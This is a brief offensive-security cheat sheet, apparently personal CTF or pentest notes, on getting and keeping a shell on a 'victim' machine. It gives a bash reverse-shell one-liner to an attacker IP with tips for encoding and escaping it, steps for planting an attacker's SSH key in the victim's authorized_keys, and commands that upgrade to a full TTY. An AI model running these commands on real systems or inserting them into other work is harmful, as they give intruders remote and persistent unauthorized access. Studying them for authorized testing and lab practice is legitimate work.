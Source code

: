 ```yaml
---
sort : 1
---
```


# Get A Shell

## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```

</br></br>

## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

you already having a shell ...  

```bash
# On the victim machine

# if you can write on the user dir (create files/dirs)
$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase):                           # no password 
    Enter same passphrase again:                                          # no password 


$ cat TmpKey.pub | xclip -selection c                                     # copy the public key
```

```bash
# Back to the victim side

$ echo "CTRL+V" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```



### BruteForce Attack

not recommended ^^ :star:


</br></br>



# Spawn a TTY shell 

```bash
# Python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Script 
$ script /dev/null -c bash

# sh
$ /bin/sh -i

# bash
$ /bin/bash -i

# Echo
$ echo 'os.system('/bin/bash')'

# Perl
$ perl -e 'exec "/bin/sh";'

# From within VI
:!bash
```

```bash
$ export TERM=xterm-256color
$ export SHELL=BASH

# CTRL-Z
$ stty raw -echo; fg
# Enter twice
```